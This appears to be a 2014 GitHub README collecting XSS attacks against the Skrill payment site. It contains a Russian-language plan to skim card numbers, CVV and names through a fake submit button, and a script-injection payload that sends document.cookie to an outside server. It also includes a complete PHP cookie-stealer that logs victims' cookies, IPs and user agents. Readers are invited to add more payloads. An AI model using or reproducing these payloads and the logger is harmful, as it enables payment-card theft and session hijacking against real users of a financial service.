 xss_skrill
==========

*xss work: 9,10,11,12.10.2014*

**Demo:** http://atastycookie.me/skrill/


Write you example of XSS and we post it here :)

0) Был предложен вариант перерисовки новой кнопки отправки введенных данных сначала на сторонний сервер(карта, номер, cvv, фио и вся информация), а потом ттолько на SKRILL

1) `"><script>alert()</script>` 

2) `"><script language= "JavaScript">document.location="http://atastycookie.me/skrill/xss.php?cookie=" + document.cookie;document.location="http://atastycookie.me"</script>`

    <?php 
    
    function GetIP() 
    { 
    	if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) 
    		$ip = getenv("HTTP_CLIENT_IP"); 
    	else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
    		$ip = getenv("HTTP_X_FORWARDED_FOR"); 
    	else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) 
    		$ip = getenv("REMOTE_ADDR"); 
    	else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) 
    		$ip = $_SERVER['REMOTE_ADDR']; 
    	else 
    		$ip = "unknown"; 
    	return($ip); 
    } 
    
    function logData() 
    { 
    	$ipLog="log.txt"; 
    	$cookie = $_SERVER['QUERY_STRING']; 
    	$register_globals = (bool) ini_get('register_gobals'); 
    	if ($register_globals) $ip = getenv('REMOTE_ADDR'); 
    	else $ip = GetIP(); 
    
    	$rem_port = $_SERVER['REMOTE_PORT']; 
    	$user_agent = $_SERVER['HTTP_USER_AGENT']; 
    	$rqst_method = $_SERVER['METHOD']; 
    	$rem_host = $_SERVER['REMOTE_HOST']; 
    	$referer = $_SERVER['HTTP_REFERER']; 
    	$date=date ("l dS of F Y h:i:s A"); 
    	$log=fopen("$ipLog", "a+"); 
    
    	if (preg_match("/\bhtm\b/i", $ipLog) || preg_match("/\bhtml\b/i", $ipLog)) 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE{ : } $date | COOKIE:  $cookie <br>"); 
    	else 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host |  Agent: $user_agent | METHOD: $rqst_method | REF: $referer |  DATE: $date | COOKIE:  $cookie \n\n"); 
    	fclose($log); 
    } 
    
    logData(); 
    
    ?>
